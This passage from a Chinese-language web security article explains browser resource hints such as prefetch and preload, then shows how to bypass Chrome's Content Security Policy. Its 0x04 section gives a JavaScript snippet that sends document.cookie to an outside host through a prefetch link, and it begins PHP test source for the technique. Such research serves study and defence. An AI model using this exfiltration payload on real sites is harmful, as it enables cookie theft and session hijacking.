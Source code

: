     <link rel='subresource' href='warning.js'>

Preload 作为一个新的 WEB 标准，它为处理当前页面而生，和 subresource 一样，但又有着一些区别，例如 onload 事件， as 属性等等：

    <link rel="preload" href="//linux.im/styles/other.css">

在 Firefox 中我们也可以通过设置 Header 头 X-moz: prefetch 来进行 prefetch，可能有些人希望能够禁用掉这个预加载，可以在 FF 浏览器的 about:config 中 ```user_pref("network.prefetch-next", false);``` 禁用掉对所有站点的预加载支持。

如何设置预加载的顺序？在 W3c Resource Priorities [6]  增加了两个重要资源属性：lazyload 和 postpone  。

- lazyload 懒加载: 一个资源必须等待其他没有标识lazyload的开始下载以后才能下载；
- postpone 延缓: 一个资源直到要显示给用户时才可以下载。适合图片 视频等元素；

不是所有的资源都可以预加载，当资源为以下列表中的资源时，将阻止预渲染操作：

	- 弹窗页面
	- 含恶意软件的页面
	- URL 中包含下载资源
	- 页面中包含音频、视频
	- POST、PUT 和 DELETE 操作的 ajax 请求
	- HTTP 认证(Authentication) / HTTPS 页面
	- 正在运行 Chrome developer tools 开发工具

#### 0x04 Bypass Chrome CSP

在 Chrome 中，CSP 的规范执行是较低于 Firefox 的（0x05会提到），我们来看下面这条规则：

    Content-Security-Policy: default-src 'self'; script-src 'self' test.n0tr00t.com 'unsafe-inline';

默认同源下的资源加载，允许内部标签执行但只能数据传输给同源和  test.n0tr00t.com 域下，一般情况下我们可以通过入侵 test.n0tr00t.com  域名来将信息传输出去，除此之外，如果是交互性较强的平台，我们也可以不将数据对外传输，例如：[http://rm-rf.gg/2015/09/20/Dotabuff-Worm.html](http://rm-rf.gg/2015/09/20/Dotabuff-Worm.html)

由于 inline 的存在，我们可以内嵌代码到页面中对社区进行蠕虫等操作，但由于开始提到 Chrome CSP 中的规范执行是较低于 Firefox 的，所以我们可以使用前面提到的多个属性来进行绕过获取信息。

    var n0t = document.createElement("link");
    n0t.setAttribute("rel", "prefetch");
    n0t.setAttribute("href", "//n0tr00t.com/?" + document.cookie);
    document.head.appendChild(n0t);
    
页面渲染完毕会创建 Link REL=prefetch 的标签，发目标页面发起预加载，我们也可以使用其他属性（2016.02 Fuzz 部分结果）：

 - Prefetch
 - Prerender
 - Preload
 - …

E.g SourceCode : 

    <?php

    header("Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline';");

    ?>

    <html>
    <head></head>
    <body>
        csp header test
        <script>
        document.cookie = "csp=" + escape("sad@jisajid&*JDSJddsajhdsajkh21sa213123o1") + ";";
